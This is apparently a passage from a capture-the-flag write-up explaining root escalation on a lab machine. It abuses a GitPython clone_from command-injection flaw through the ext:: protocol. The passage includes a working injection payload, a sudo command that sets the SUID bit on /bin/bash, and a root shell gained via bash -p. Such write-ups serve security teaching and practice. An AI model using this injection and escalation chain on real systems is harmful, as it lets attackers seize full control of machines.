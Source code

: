 ```
This proof of concept exploits a vulnerability in GitPython by using a malicious payload within the ```clone_from``` function to execute arbitrary commands:

- ```Repo.init('', bare=True)```: Initializes an empty Git repository in the current directory.

- ```r.clone_from('ext::sh -c touch% /tmp/pwned'```, ```'tmp', multi_options=["-c protocol.ext.allow=always"])```: Instead of cloning a legitimate URL, it abuses the ```ext::``` protocol to run shell commands (```sh -c touch% /tmp/pwned```). This command creates a file named "pwned" in the ```/tmp``` directory.

- In Git, the ```ext::``` protocol is a feature that allows users to run external commands during certain Git operations, like cloning repositories. Essentially, when you prefix a Git command with ```ext::```, it tells Git to execute the specified shell command instead of performing the usual network-based repository cloning. In the context of the GitPython vulnerability (like in this PoC), ```ext::``` can be abused to execute arbitrary shell commands on the target system, bypassing the normal constraints of the Git operation. This is why it's a key element in exploiting the vulnerability for privilege escalation or remote code execution.

In light of all this, here is my next step which is critical because it turns a normal user into a root user, enabling full control of the system:

```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% u+s% /bin/bash'
```

Here's a breakdown of this command:

- ```sudo /usr/bin/python3```: we're running Python as the ```prod``` user with elevated privileges using ```sudo```.

- ```chmod u+s /bin/bash```: This command sets the SUID bit on ```/bin/bash```. The SUID bit allows users to execute a file with the file owner’s (in this case, root's) privileges. By adding ```u+s```, we're giving root privileges to the ```/bin/bash``` binary, meaning any user who runs ```bash``` will now have root-level access.

- ```%``` characters: The ```%``` signs are used to replace spaces in the shell command. Git interprets spaces in this context as argument delimiters, so by using ```%```, we ensure that the entire command gets passed correctly to ```sh```. Once Git executes the command, it replaces ```%``` with spaces, making the full command look like: ```chmod u+s /bin/bash```.

The following command will confirm whether the SUID bit has been successfully set:

```
prod@editorial:/opt/internal_apps/clone_changes$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```

The important part to look for is the ```s``` in ```-rwsr-xr-x```, which indicates that the SUID bit has been set, meaning that running ```/bin/bash``` will execute it with root privileges.

At this point, we should be able to open a root shell by simply running:

```
prod@editorial:/opt/internal_apps/clone_changes$ /bin/bash -p
bash-5.1# id
uid=1000(prod) gid=1000(prod) euid=0(root) groups=1000(prod)
```

The ```-p``` flag in ```/bin/bash -p``` is used to preserve the effective user ID (euid) and effective group ID (egid) when launching a new shell. Normally, when you run a setuid program like ```/bin/bash``` (with SUID set), it will try to drop any elevated privileges and run as the real user. The ```-p``` flag prevents this behavior, ensuring that the shell retains the elevated root privileges granted by the SUID bit.
```